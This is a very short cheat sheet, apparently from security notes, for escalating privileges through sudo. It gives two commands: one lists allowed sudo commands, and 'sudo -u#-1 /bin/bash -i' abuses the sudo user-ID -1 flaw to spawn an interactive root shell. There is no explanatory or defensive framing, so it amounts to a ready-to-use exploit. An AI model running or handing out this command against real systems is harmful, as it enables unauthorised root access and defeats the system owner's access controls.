 # SUDO
***

- List commands that a user is allowed to execute with superuser privileges
```sh
sudo -l
```

- Execute
```sh
sudo -u#-1 /bin/bash -i
```

